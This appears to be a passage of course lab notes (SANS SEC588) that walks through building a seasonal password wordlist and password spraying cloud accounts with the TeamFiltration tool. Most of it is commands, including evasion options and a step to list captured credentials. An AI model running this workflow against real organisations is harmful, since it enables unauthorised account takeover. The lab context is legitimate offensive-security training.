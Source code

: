 **Build a wordlist that matches the below syntax**

SnakeJazz2020, which would be: Snake + Jazz + 2020

```python
echo "2019" >> /opt/Wordlister/words.txt
```

```python
echo "2020" >> /opt/Wordlister/words.txt
```

```python
echo "2021" >> /opt/Wordlister/words.txt
```

```python
echo "2022" >> /opt/Wordlister/words.txt
```

** Use the wordlister python script to manipulate the words.txt file**
```python
python3 /opt/Wordlister/wordlister.py --cap --input /opt/Wordlister/words.txt --perm 3 --min 4 --max 30
```
>
    
    --input: `words.txt is the output
    --cap: This capitalizes all the words
    --perm 3: This instructs Wordlister to make a permutation of 3 words
    --min 4: The minimum number of characters is 4
    --max 30: The maximum number of characters is 30

**Validate that what we have done will show us the password of BirdPerson2021, which we can use as a true positive**
```python
cat /opt/Wordlister/output.txt  | grep -E '^BirdPerson2021'
```

**If this command shows BirdPerson2021, we have built a wordlist containing the right format**
```python
cat /opt/Wordlister/output.txt  | grep -v '^20\|Tammy\|Terry\|Gummerman\|terry\|tammy\|jerry\|Jerry\|Smith\|Summer\Sleepy\|sleepy\|gary\|Gary' > /opt/Wordlister/pw1.txt
```

**Run this through the pw-inspector tool from hydra; this tool will remove all small words**
```python
pw-inspector -i /opt/Wordlister/pw1.txt -o /opt/Wordlister/pw2.txt -m 13 -M 20 -c 3 -l -u -n
```
>
    
    -m 13: minimum of 13
    -M 20: maximum of 20
    -c 3 : number of types required for character sets
    -l : lowercase characters
    -u : uppercase characters
    -n : numerical characters

**Next remove all the words that do not reflect, starting with a capitalized character**
```python
sed '/^[[:lower:][:punct:]]/d' /opt/Wordlister/pw2.txt > /opt/Wordlister/pw3.txt
```

**Have the grep command use Regex only to include words that end in numbers**
```python
grep -E '[0-9]$' /opt/Wordlister/pw3.txt > /opt/Wordlister/pw4.txt
```

** Let's validate that the list contains passwords that match our list of words**
```python
cat /opt/Wordlister/pw4.txt | grep '^BirdPerson2021'
```

**Use the TeamFiltration tool to spray usernames**

Sometimes this tool will crash and you will receive the following errors:

    - Cannot resolve the Amazon API Gateway that was just created
    - Too many Gateway request for delete at one time
    - False negatives where this may occur in the middle of a scan

It is important to note that while this may seem like a problem, in many cases deleting the database can help you recover. Here is a simple way to do so
```python
rm -Rf /home/sec588/Coursefiles/workdir/teamfiltration
```

```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --enum --validate-login --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --usernames /home/sec588/Coursefiles/workdir/users.txt
```

**TEAMFILTRATION COMMAND TO EXECUTE!**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --spray --validate-login --sleep-min 1 --sleep-max 3 --jitter 1 --usernames /home/sec588/Coursefiles/workdir/users.txt --passwords /home/sec588/Coursefiles/workdir/passwords.txt --shuffle-users --shuffle-regions
```
>
    
    --usernames: A file containing the usernames
    --outpath: This is the location where the teamfiltration database will live
    --config: This is the configuration file to use
    --validate-login: Use the more "noisy" flag in this way it will have 1 bad password attempt per email address
    --spray: This is to perform a password spraying attack
    --sleep-min: This will set the minimal sleep interval (1 minutes)
    --sleep-max: This will set the maximum internal to wait (3 minutes)
    --jitter: This is the amount to jitter between maximum and minimum time intervals
    --usernames: This is the file containing usernames
    --passwords: This is the file containing passwords
    --shuffle-users: This command is to shuffle the usernames to test so that they are tested in different orders
    --shuffle-region: This command is to shuffle between regions

**View results with the --database flag**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --database
```
```python
show creds
```
```python
exit
```

